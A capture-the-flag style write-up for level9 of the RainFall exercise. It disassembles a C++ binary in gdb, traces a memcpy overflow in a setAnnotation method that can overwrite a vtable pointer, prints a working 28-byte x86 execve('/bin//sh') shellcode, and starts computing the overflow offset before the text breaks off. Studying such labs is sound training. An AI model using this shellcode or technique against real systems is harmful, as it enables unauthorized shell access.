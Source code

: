 # Preparations

Entering level9 home directory we see a level9 binary with sticky bit in access rights.
By objdumping the binary we see only main function with classes:

	level9@RainFall:~$ objdump -D -M intel-mnemonic level9 > /tmp/dump9

Why do we do objdump first? Maybe in this exercise a function exists but is not used so we need to see all the functions.

# Code writing

We start to work with gdb in Intel syntax (set disassembly-flavor intel):

	(gdb) disass main
	Dump of assembler code for function main:
	   0x080485f4 <+0>:	push   ebp
	   0x080485f5 <+1>:	mov    ebp,esp
	   0x080485f7 <+3>:	push   ebx
	   0x080485f8 <+4>:	and    esp,0xfffffff0
	   0x080485fb <+7>:	sub    esp,0x20
	   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1			;check arguments
	   0x08048602 <+14>:	jg     0x8048610 <main+28>			;jump if not according to condition (first operand is more than second operand)
	   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1			;argument for exit
	   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>			;call exit
	   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c			;preparation to calling the class
	   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>			;calling the class
	   0x0804861c <+40>:	mov    ebx,eax					;preparations to calling the method
	   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5			;argument for calling the method
	   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx			;preparations to calling the method
	   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>			;calling the method new
	   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx			;result to the variable
	   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c			;preparation to calling the class
	   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>			;calling the class
	   0x0804863e <+74>:	mov    ebx,eax					;preparations to calling the method
	   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6			;argument for calling the method
	   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx			;preparations to calling the method
	   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>			;calling the method new
	   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx			;result to the variable
	   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]			;dealing with variable where we put result with 5
	   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax			;put variable to stack
	   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]			;dealing with variable where we put result with 6
	   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax			;put variable to stack
	   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]			;taking the argument array
	   0x08048667 <+115>:	add    eax,0x4					;taking the first argument from the array
	   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]			;preparing arguments for the method setAnnotation
	   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax			;preparing arguments for the method setAnnotation
	   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]			;preparing arguments for the method setAnnotation
	   0x08048674 <+128>:	mov    DWORD PTR [esp],eax			;preparing arguments for the method setAnnotation
	   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>	;call method setAnnotation
	   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]			;dealing with variable where we put result with 6
	   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]			;dereferencing pointer
	   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]			;dereferencing pointer
	   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]			;dealing with variable where we put result with 5
	   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax			;preparation for calling the function
	   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]			;preparation for calling the function
	   0x08048690 <+156>:	mov    DWORD PTR [esp],eax			;preparation for calling the function
	   0x08048693 <+159>:	call   edx					;calling function from class
	   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
	   0x08048698 <+164>:	leave
	   0x08048699 <+165>:	ret
	End of assembler dump.

Plus we need to see what is inside the classes (we saw them in dump from objdump):

	(gdb) disass _ZN1NC2Ei
	Dump of assembler code for function _ZN1NC2Ei:
	   0x080486f6 <+0>:	push   ebp
	   0x080486f7 <+1>:	mov    ebp,esp
	   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to the method
	   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848		;address to the other method
	   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to the method
	   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]			;dealing with something from the class
	   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx			;result of something from the class
	   0x0804870b <+21>:	pop    ebp
	   0x0804870c <+22>:	ret
	End of assembler dump.
	(gdb) disass _ZN1N13setAnnotationEPc
	Dump of assembler code for function _ZN1N13setAnnotationEPc:
	   0x0804870e <+0>:	push   ebp
	   0x0804870f <+1>:	mov    ebp,esp
	   0x08048711 <+3>:	sub    esp,0x18
	   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]			;preparation to strlen, argument to the method
	   0x08048717 <+9>:	mov    DWORD PTR [esp],eax			;preparation to strlen
	   0x0804871a <+12>:	call   0x8048520 <strlen@plt>			;call strlen
	   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]			;result of strlen
	   0x08048722 <+20>:	add    edx,0x4					;shift 4 bytes in buffer 
	   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax			;preparations to memcpy
	   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]			;preparations to memcpy
	   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax			;preparations to memcpy
	   0x08048730 <+34>:	mov    DWORD PTR [esp],edx			;preparations to memcpy
	   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>			;call memcpy
	   0x08048738 <+42>:	leave
	   0x08048739 <+43>:	ret
	End of assembler dump.
	(gdb) disass _ZN1NplERS_
	Dump of assembler code for function _ZN1NplERS_:
	   0x0804873a <+0>:	push   ebp
	   0x0804873b <+1>:	mov    ebp,esp
	   0x0804873d <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to method
	   0x08048740 <+6>:	mov    edx,DWORD PTR [eax+0x68]			;dealing with what we add to the value inside the method
	   0x08048743 <+9>:	mov    eax,DWORD PTR [ebp+0xc]			;dealing with argument to method
	   0x08048746 <+12>:	mov    eax,DWORD PTR [eax+0x68]			;dealing with argument to method
	   0x08048749 <+15>:	add    eax,edx					;the main action
	   0x0804874b <+17>:	pop    ebp
	   0x0804874c <+18>:	ret
	End of assembler dump.
	(gdb) disass _ZN1NmiERS_
	Dump of assembler code for function _ZN1NmiERS_:
	   0x0804874e <+0>:	push   ebp
	   0x0804874f <+1>:	mov    ebp,esp
	   0x08048751 <+3>:	mov    eax,DWORD PTR [ebp+0x8]			;dealing with argument to method
	   0x08048754 <+6>:	mov    edx,DWORD PTR [eax+0x68]			;dealing with what we substract from the value inside the method
	   0x08048757 <+9>:	mov    eax,DWORD PTR [ebp+0xc]			;dealing with argument to method
	   0x0804875a <+12>:	mov    eax,DWORD PTR [eax+0x68]			;dealing with argument to method
	   0x0804875d <+15>:	mov    ecx,edx					;the main action
	   0x0804875f <+17>:	sub    ecx,eax					;the main action
	   0x08048761 <+19>:	mov    eax,ecx					;the main action
	   0x08048763 <+21>:	pop    ebp
	   0x08048764 <+22>:	ret
	End of assembler dump.

Let's transfer numbers from hex to decimal in methods and see what is inside the adresses:

	(gdb) p 0x68
		$2 = 104
		(gdb) p 0x8
		$3 = 8
		(gdb) p 0xc
		$4 = 12
	(gdb) x/wx 0x8048848
		0x8048848 <_ZTV1N+8>:	0x0804873a
		(gdb) x/wx 0x0804873a
		0x804873a <_ZN1NplERS_>:	0x8be58955

So from one method we call some other one not directly but through the table. Finally we write the code in C++.

# Exploitation

Explotation is done because of dereferencing and how data (strings and numbers lie in the class). We can overwrite values and insert shellcode with the help of `memcpy` in setAnnotation method. Why do we need shellcode? Inside this level we do not see any calls of `system` or `execve` and we need to get control of the terminal under user bonus0. So we need to insert shellcode as a spoiled pillow to some place in the code. What shellcode for linux x86 we will use:

	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

What does it mean:

	Disassembly of section .text:

	08048060 <_start>:
	 8048060: 31 c0                 xor    %eax,%eax
	 8048062: 50                    push   %eax
	 8048063: 68 2f 2f 73 68        push   $0x68732f2f	;'//sh'
	 8048068: 68 2f 62 69 6e        push   $0x6e69622f	;'/bin'
	 804806d: 89 e3                 mov    %esp,%ebx	;copy string (command) address
	 804806f: 89 c1                 mov    %eax,%ecx
	 8048071: 89 c2                 mov    %eax,%edx
	 8048073: b0 0b                 mov    $0xb,%al	;11
	 8048075: cd 80                 int    $0x80	;execve()
	 8048077: 31 c0                 xor    %eax,%eax
	 8048079: 40                    inc    %eax
	 804807a: cd 80                 int    $0x80	;restart_syscall()

Shellcode length is 28 bytes that is very important because we need to count where to put it so that it is executed and does not break the programm.
We count where to put the shellcode while counting `EIP` offset. This we can do with the help of special strings: https://wiremask.eu/tools/buffer-overflow-pattern-generator/. We get address 0x41366441 that means that offset is 108:

	Breakpoint 6, 0x08048677 in main ()
	(gdb) x/50wx $ebp+0xc
		0xbffff644:	0xbffff6d4	0xbffff6e0	0xb7fdc860	0x00000000
	(gdb) x/50wx 0xbffff6d4
		0xbffff6d4:	0xbffff7f9	0xbffff812	0x00000000	0xbffff8db
	(gdb) x/100wx 0xbffff7f9
		0xbffff7f9:	0x6d6f682f	0x73752f65	0x6c2f7265	0x6c657665
		0xbffff809:	0x656c2f39	0x396c6576	0x30614100	0x41316141
		0xbffff819:	0x61413261	0x34614133	0x41356141	0x61413661
		0xbffff829:	
